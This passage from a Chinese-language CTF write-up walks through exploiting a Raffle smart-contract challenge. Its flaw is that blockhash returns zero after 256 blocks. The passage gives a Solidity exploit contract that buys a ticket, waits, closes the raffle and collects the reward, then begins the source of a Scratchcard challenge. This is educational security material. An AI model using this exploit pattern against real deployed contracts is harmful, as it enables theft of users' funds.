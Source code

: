 这个需要的是调用collectreward。

然后前面的前置条件我们可以发现这些条件都可以被buyticket 中的前几个满足。

还有一个raffleStopped 需要变成true 。

那这里我们发现fallback可以成功的调用，然后这里有一个未来随机数，所以这个随机数是不可以被预测的，但是区块链中计算区块 只会对相邻的256个区块进行计算，对于256个区块之前的函数就只会返回 0 值。

所以这里攻击链可以梳理出来了。

我们首先攻击合约buyticket然后这里已经触发了第一个&gt;=fee的fallback。

然后把题目合约加入到ctf_challenge 中，因为我们的题目要自行调用closeRaffle函数。否则会revert的。

最后我们等待256区块后在触发closeRaffle函数最后在调用转账函数即可成功。

给出exp

```
contract exp`{`
    address target=challenge address;
    Raffle A = Raffle(target);
    constructor()payable`{``}`
    function exp1()payable
    `{`
        A.buyTicket.value(0.1 ether)();
        A.ctf_challenge_add_authorized_sender(target);
    `}`
    function exp2()payable
    `{`
        target.call.value(0 ether)();
        A.collectReward();
    `}`
    function() payable`{``}`
    function dest()public`{`
        selfdestruct(your address);
    `}`
`}`
```

[![](https://p4.ssl.qhimg.com/t01d268a7291c9b7a45.png)](https://p4.ssl.qhimg.com/t01d268a7291c9b7a45.png)

先调用exp1 然后等待256个区块过去， 在调用exp2.

成功调用。

## Scratchcard

给出合约的源码

```
pragma solidity 0.4.24;

import "../CtfFramework.sol";

library Address `{`
    function isContract(address account) internal view returns (bool) `{`
        uint256 size;
        assembly `{` size := extcodesize(account) `}`
        return size &gt; 0;
    `}`
`}`

contract Scratchcard is CtfFramework`{`

    event CardPurchased(address indexed player, uint256 cost, bool winner);

    mapping(address=&gt;uint256) private winCount;
```